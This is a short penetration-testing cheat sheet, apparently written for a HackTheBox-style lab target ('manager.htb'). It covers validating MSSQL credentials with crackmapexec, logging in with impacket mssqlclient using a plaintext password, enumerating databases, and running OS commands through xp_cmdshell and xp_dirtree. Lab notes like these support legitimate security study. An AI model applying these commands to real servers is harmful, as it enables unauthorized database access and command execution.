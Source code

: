 ## Bruteforce

Check whether creds found is valid on MSSQL:

``crackmapexec mssql manager.htb -u Desktop/user.txt -p Desktop/user.txt --no-brute --continue-on-success`

## Interaction

Using **impacket-mssqlclient**, interact with the database:

`mssqlclient.py reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth`

![](https://i.imgur.com/bR3FwZc.png)

Below are example interaction:

```sql
SELECT name FROM master.dbo.sysdatabases;
USE master;
select table_name from information_schema.tables;
SELECT COLUMN_NAME, DATA_TYPE, CHARACTER_MAXIMUM_LENGTH, NUMERIC_PRECISION, NUMERIC_SCALE from information_schema.columns where table_name = 'spt_fallback_db';
```



  

## Command Execution
### xp_cmdshell

xp_cmdshell is disabled by default. 

For example:

```cmd-session
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

Try **xp_cmdshell** and **xp_dirtree**:
  

```sql
xp_dirtree
xp_cmdshell
EXEC xp_cmdshell
EXEC xp_dirtree
```
